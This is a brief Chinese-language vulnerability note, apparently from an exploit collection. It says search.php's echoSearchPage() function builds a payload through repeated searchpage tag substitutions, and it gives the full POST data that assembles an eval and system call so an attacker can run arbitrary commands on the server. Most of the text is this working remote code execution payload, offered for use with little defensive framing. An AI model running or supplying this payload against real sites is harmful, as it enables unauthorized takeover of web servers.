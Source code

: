 漏洞详情:                        
	漏洞位于search.php处，echoSearchPage()函数对html中的searchpage标签进行了多次的替换，多次替换过程中不断组合形成payload    
PostData:      
	searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=sys&9[]=tem('cmd');
	可执行任意命令    
